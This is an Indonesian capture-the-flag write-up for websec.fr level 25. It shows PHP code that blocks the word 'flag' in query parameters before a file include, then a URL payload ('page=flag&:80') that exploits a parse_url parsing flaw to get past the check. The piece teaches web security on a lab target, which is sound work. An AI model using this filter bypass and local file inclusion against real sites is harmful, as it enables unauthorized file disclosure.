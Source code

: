 ```
              </div>
            <p class='well'>
                  <?php
                  parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);
                  foreach ($query as $k => $v) {
                      if (stripos($v, 'flag') !== false)
                          die('You are not allowed to get the flag, sorry :/');
                  }

                  include $_GET['page'] . '.txt';
                  ?>
        </p>
          </div>
      </div>
  </body>
</html>
```

Hal yang menarik disini adalah, karena request yang dikirim menggunakan metode GET request, maka input yang di form akan terlihat di url. Oleh sebab itu pembuat challenge menggunakan metode parse_url untuk membagi url menjadi bagian bagian data yang kemudian di cek agar peserta tidak bisa melihat flag.txt

Mari kita coba untuk debugging di local

```
<?php

$url = "http://websec.fr/level25/index.php?page=flag&:80";
parse_str(parse_url($url)['query'], $query);

#var_dump($query);

foreach($query as $k => $v){
	echo $v."\n";
}

var_dump(stripos($v, "flag"));

echo "\n";
?>
```

![Image](img/level25/2.PNG)

Function parse_url ternyata memiliki kelemahan saat melakukan parsing, dimana dia akan mencoba memparsing port namun di tempat yang salah. Kita bisa memanfaatkan ini untuk menyembunyikan isi dari GET request yang ingin kita kirim.
